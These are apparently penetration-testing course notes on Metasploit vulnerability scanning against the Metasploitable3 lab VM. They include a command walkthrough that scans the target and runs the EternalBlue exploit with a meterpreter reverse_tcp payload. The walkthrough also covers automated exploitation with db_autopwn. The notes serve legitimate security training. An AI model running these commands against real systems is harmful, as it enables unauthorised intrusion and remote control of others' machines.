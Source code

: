 - Vulnerability scanning with MSF includes the use of auxiliary and exploit modules, along with MSF plugins, and the importing of Nessus scan results into MSF.

Vulnerability Scanning
	- Vulnerability scanning and detection is the process of scanning a target for vulnerabilities and verifying whether they are exploitable.
	- So far, we have been able to identify and exploit misconfigurations on target systems, however, in this section we will be exploring the process of utilizing auxiliary and exploit modules to scan and identify inherent vulnerabilities in services, operating systems and web applications.
	- This information will come in handy during the exploitation phase of this course.
	- We will also be exploring the process of utilizing third party vulnerability scanning tools like Nessus and how we can integrate the Nessus functionality in to the MSF.

Lab Environment
	- For the purpose of demonstrating the vulnerability scanning process, we will be utilizing an intentionally vulnerable virtual machine called Metasploitable3 that is based on Windows Server 2008.
	- Metasploitable3 was developed by Rapid7 to demonstrate how MSF can be used to perform exploitation of a Windows System.
	- Instructions on how this VM can be setup can be found on: https://github.com/rapid7/metasploitable3

Practical Demonstration
	- `sudo nmap -sn 10.10.10.1/24`
	- `ip a s`
	- `service postgresql start`
	- `msfconsole`
	- `db_status`
	- `setg RHOSTS 10.10.10.4`
	- `setg RHOST 10.10.10.4`
	- `workspace -a MS3`
	- `db_nmap -sS -sV -O 10.10.10.4`
	- `hosts`
	- `services`
	- `search type:exploit name:Microsoft IIS`
	- `search type:exploit name:MySQL 5.5`
	- `search type:exploit name:Sun GlassFish`
	- `use exploit/multi/http/glassfish_deployer`
	- `info`
	- `set payload windows/meterpreter/reverse_tcp`
	- `options`
	- `services`
	- `back`
	- `services`
	- `searchsploit "Microsoft Windows SMB" | grep -e "metasploit"`
	- `search EternalBlue`
	- `use auxiliary/scanner/smb/smb_ms17_010`
	- `options`
	- `run`
	- `use exploit/windows/smb/ms17_010_eternalblue`
	- `options`
	- `exploit`
	- Meterpreter Session
		- `sysinfo`
		- `exit`
	- `back`
	- Metasploit AutoPwn
		- Installation Instructions available on: https://github.com/hahwul/metasploit-autopwn
		- After Installation:
			- `load db_autopwn`
			- `db_autopwn`
			- `db_autopwn -p`
			- `db_autopwn -t`
			- `db_autopwn -p -t -PI 445`
	- `analyze`
	- `vulns`
	- `searchsploit "Apache Tomcat/Coyote JSP engine 1.1"`
	- `searchsploit "Apache Tomcat/Coyote JSP engine 1.1" | grep -e "metasploit"`